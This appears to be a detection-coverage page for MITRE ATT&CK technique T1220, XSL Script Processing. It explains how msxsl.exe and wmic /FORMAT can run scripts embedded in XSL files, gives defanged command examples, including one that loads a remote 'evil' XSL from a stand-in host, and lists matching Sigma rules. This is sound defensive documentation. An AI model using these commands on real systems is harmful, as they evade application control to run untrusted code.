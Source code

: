 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: XSL Script Processing 

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1220


# Test : MSXSL Bypass using local files
## OS
  - windows


## Description:
Executes the code specified within a XSL script tag during XSL transformation using a local payload. 
Requires download of MSXSL. No longer available from Microsoft.
(Available via Internet Archive https://web.archive.org/web/20200825011623/https://www.microsoft.com/en-us/download/details.aspx?id=21714 ) 
Open Calculator.exe when test successfully executed, while AV turned off.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_wmic_xsl_script_processing.yml (id: 05c36dd6-79d6-4a9a-97da-3db20298ab2d)

 - registry_set_persistence_ie.yml (id: d88d0ab2-e696-4d40-a2ed-9790064e66b3)



[back](../index.md)

